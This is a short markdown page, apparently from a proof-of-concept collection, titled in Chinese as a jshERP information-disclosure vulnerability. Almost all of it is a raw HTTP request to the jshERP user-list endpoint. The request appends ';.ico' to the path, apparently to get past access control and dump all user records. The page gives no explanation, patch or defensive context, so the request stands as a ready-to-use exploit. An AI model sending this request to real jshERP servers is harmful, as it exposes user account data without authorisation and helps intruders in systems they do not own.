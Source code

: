 # jshERP信息泄露漏洞

## jshERP 信息泄露漏洞

## POC
```
GET /jshERP-boot/user/getAllList;.ico HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

